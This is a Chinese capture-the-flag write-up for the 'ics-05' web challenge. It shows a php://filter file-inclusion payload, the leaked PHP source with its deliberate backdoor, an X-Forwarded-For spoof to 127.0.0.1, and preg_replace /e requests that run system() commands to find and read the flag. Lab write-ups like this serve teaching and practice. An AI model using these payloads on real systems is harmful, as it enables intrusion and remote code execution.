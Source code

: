 # ics-05

## 解题思路：

- 首先打开网页，发现跟 ics-04 和 ics-06 的界面一样，但是题目直接告诉了我们 **“工控云管理系统设备维护中心” 有后门**

- 那就直接打开这个界面，发现空空如也，只有一个复选框可以点，点了也没什么用。打开开发者选项，发现有一个 **?page=index** ，get传参形式获取到page的值

- 考虑是文件包含漏洞([参考资料](https://blog.csdn.net/qq_29419013/article/details/81202358))， 对page进行get：

    `index.php/?page=alsdfjasdlfkjaslf`

    服务器直接把我发出去的page值显示在了屏幕上，说明page确实传过去了。

- 开始利用，构造一个payload传一下我们的命令：

    `index.php?pages=php://filter/read=convert.base64-encode/resource=index.php`

    这里是直接获取了index.php的内容我在第二步时尝试过请求 `/config.php` ，发现该文件不存在。

- 利用payload上传，发现服务器传回了一长串base64编码，放进phpstorm里执行一下解码：

    ```html
    <!DOCTYPE HTML>
    <html>

    <head>
        <meta charset="utf-8">
        <meta name="renderer" content="webkit">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
        <link rel="stylesheet" href="layui/css/layui.css" media="all">
        <title>设备维护中心</title>
        <meta charset="utf-8">
    </head>

    <body>
        <ul class="layui-nav">
            <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
        </ul>
        <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
            <legend>设备列表</legend>
        </fieldset>
        <table class="layui-hide" id="test"></table>
        <script type="text/html" id="switchTpl">
            <!-- 这里的 checked 的状态只是演示 -->
            <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
        </script>
        <script src="layui/layui.js" charset="utf-8"></script>
        <script>
        layui.use('table', function() {
            var table = layui.table,
                form = layui.form;

            table.render({
                elem: '#test',
                url: '/somrthing.json',
                cellMinWidth: 80,
                cols: [
                    [
                        { type: 'numbers' },
                        { type: 'checkbox' },
                        { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                        { field: 'name', title: '设备名', templet: '#nameTpl' },
                        { field: 'area', title: '区域' },
                        { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                        { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                    ]
                ],
                page: true
            });
        });
        </script>
        <script>
        layui.use('element', function() {
            var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
            //监听导航点击
            element.on('nav(demo)', function(elem) {
                //console.log(elem)
                layer.msg(elem.text());
            });
        });
        </script>

    <?php

    $page = $_GET[page];

    if (isset($page)) {



    if (ctype_alnum($page)) {
    ?>

        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead"><?php echo $page; die();?></p>
        <br /><br /><br /><br />

    <?php

    }else{

    ?>
            <br /><br /><br /><br />
            <div style="text-align:center">
                <p class="lead">
                    <?php

                    if (strpos($page, 'input') > 0) {
                        die();
                    }

                    if (strpos($page, 'ta:text') > 0) {
                        die();
                    }

                    if (strpos($page, 'text') > 0) {
                        die();
                    }

                    if ($page === 'index.php') {
                        die('Ok');
                    }
                        include($page);
                        die();
                    ?>
            </p>
            <br /><br /><br /><br />

    <?php
    }}


    //方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

    if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

        echo "<br >Welcome My Admin ! <br >";

        $pattern = $_GET[pat];
        $replacement = $_GET[rep];
        $subject = $_GET[sub];

        if (isset($pattern) && isset($replacement) && isset($subject)) {
            preg_replace($pattern, $replacement, $subject);
        }else{
            die();
        }

    }
    ?>

    </body>

    </html>
    ```

- 看到 `if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1')` ，知道要伪造XFF，那我们就伪造一波，用burp suite修改一下请求，加一句：

    `X-Forwarded-For: 127.0.0.1`

    服务器回复，网页下面多了一句：`Welcome My Admin ! `

    成功拿到管理员权限，接下来考虑怎么拿flag：

    看到 `preg_replace()` ，没跑儿了(这个函数很有代表性，[这个链接要仔细看](https://www.jb51.net/article/145649.htm))：

        preg_replace( pattern , replacement , subject ) :
        当pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行

    于是构造payload：
    
    `/index.php?pat=/test/e&rep=system('find+/+-name+flag.php')&sub=test`

    使用 `find` 来找flag， 中间用 `+` 替换空格，我之前用空格发现服务器报错 400 ，必须用+来避免编解码错误。

    服务器回复：

    `/var/www/html/s3chahahaDir/flag`

    接着构造，直接cat看看能不能拿到flag：

    `/index.php?pat=/test/e&rep=system('cat+/var/www/html/s3chahahaDir/flag')&sub=test`

    发现没东西，再试试ls看看flag是不是文件夹：

    `/index.php?pat=/test/e&rep=system('ls+/var/www/html/s3chahahaDir/flag')&sub=test`

    服务器回应：`flag.php`

    最后用cat拿flag：

    `/index.php?pat=/test/e&rep=system('cat+/var/www/html/s3chahahaDir/flag/flag.php')&sub=test`

    搞定！
